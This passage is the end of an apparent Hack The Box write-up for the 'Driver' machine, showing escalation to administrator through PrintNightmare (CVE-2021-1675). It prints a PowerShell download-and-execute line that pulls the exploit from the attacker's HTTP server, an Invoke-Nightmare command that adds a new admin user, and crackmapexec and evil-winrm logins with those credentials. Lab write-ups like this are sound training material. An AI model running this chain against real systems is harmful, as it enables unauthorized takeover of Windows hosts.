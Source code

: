 > **CVE-2021-1675** is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."

> **Attacker Machine**

```bash
wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1
python3 -m http.server 80
```

> **Attacker Machine**:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/CVE-2021-1675.ps1')

net user                                    # oldboy don't exist!
net localgroup administrators

Invoke-Nightmare -DriverName "Xerox" -NewUser "oldboy" -NewPassword "oldboy123!$"

net user                                    # oldboy <-- There it is!
net localgroup administrators
```

> **Attacker Machine**:

```bash
poetry run crackmapexec smb 10.10.11.106 -u 'oldboy' -p 'oldboy123!$'            # --> (Pwn3d!)
poetry run winrm 10.10.11.106 -u 'oldboy' -p 'oldboy123!$'                       # --> (Pwn3d!)

evil-winrm -i 10.10.11.106 -u 'oldboy' -p 'oldboy123!$'
```

<br/><br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

> As I have always said, what a great satisfaction it is to learn and understand the concepts, they fill you with energy to continue advancing and progressing in the complexity of the challenges, these **Hack The Box** machines may seem easy but for one who is just starting they are a great contribution to our knowledge. Now I can increase the level of complexity a bit and move on to the next box. I kill the machine with **`htbExplorer`** and I'm already looking forward to deploy one more.

```bash
./htbExplorer -k Driver
```
